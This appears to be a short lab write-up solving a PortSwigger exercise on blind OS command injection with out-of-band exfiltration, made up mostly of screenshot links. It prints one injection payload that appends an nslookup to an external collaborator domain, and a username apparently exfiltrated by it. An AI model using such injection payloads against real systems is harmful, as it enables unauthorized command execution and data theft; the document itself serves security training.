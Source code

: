 ## Lab Description: Blind OS command injection with out-of-band data exfiltration

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bd586d5e-7180-44ee-a974-73f40922d12c)


## Solution: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/71c2ea04-abe7-4c76-8496-d72e44a290dd)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f866eff2-de9a-4631-b199-31a7bdf198d6)

`& nslookup 8clb6zquify37iobtzx522hmndt5hw5l.oastify.com #`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5fb56abc-49c9-4fc1-baea-ee8b344ca879)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a2c49c03-71d8-4ed6-8544-545cae72b599)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b90fda15-2ad1-4417-9855-4b8eccc9b4fb)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2660bbde-47c5-4c2e-b859-c48a26eea2a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a52955f0-3acb-4a16-b31f-b8e94655442f)

`peter-UB9jSi`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bc28b9c1-9fb4-4540-8358-a76ec3a169ce)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/00bd3267-bff3-4ad1-af78-0b3c1d260744)
